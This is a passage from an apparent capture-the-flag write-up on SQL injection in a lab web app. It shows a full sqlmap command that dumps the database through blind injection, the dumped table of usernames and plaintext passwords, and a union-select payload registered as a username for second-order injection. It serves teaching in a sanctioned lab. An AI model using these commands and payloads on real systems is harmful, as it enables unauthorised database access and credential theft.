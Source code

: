 ```shell
{
    "challenge2_user_id": 1,
    "challenge2_username": "admin"
}
```
### Task 6 - Broken Authentication 3 (Blind Injection)
Goal: This challenge has the same vulnerability as the previous one. However, it is no longer possible to extract data from the Flask session cookie or via the username display. The login form still has the same vulnerability, but this time the goal is to abuse the login form with blind SQL injection to extract the admin's password.

We can use SQLMap for this, since we are facing a Blind SQL Injection, it will be much easier and faster with SQLMap:

```shell
sqlmap -u "http://10.10.147.249:5000/challenge3/login" --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=B --dump
```

After running sqlmap successfully, we can retrieve the following:

```shell
+----+---------------------------------------+----------+
| id | password                              | username |
+----+---------------------------------------+----------+
| 1  | THM{<REDACTED>} | admin    |
| 3  | asd                                   | amanda   |
| 2  | Summer2019!                           | dev      |
| 5  | 345m3io4hj3                           | emil     |
| 4  | viking123                             | maja     |
+----+---------------------------------------+----------+
```

### Task 7 - Vulnerable Notes
Goal: Here, the previous vulnerabilities have been fixed, and the login form is no longer vulnerable to SQL injection. The team has added a new note function, allowing users to add notes on their page. The goal of this challenge is to find the vulnerability and dump the database to find the flag.

In this task, we are basically using the malicious name of the users we create to abuse a vulnerability and run these malicious names as SQL queries.

After reading the whole instructions on Task 7, we will create the malicious user.

First register a new account with the malicious username and log in using the credentials of the new account we create:

```shell
# Malicious username
' union select 1,2'
```

```shell
http://10.10.147.249:5000/challenge4/signup
http://10.10.147.249:5000/challenge4/login
```
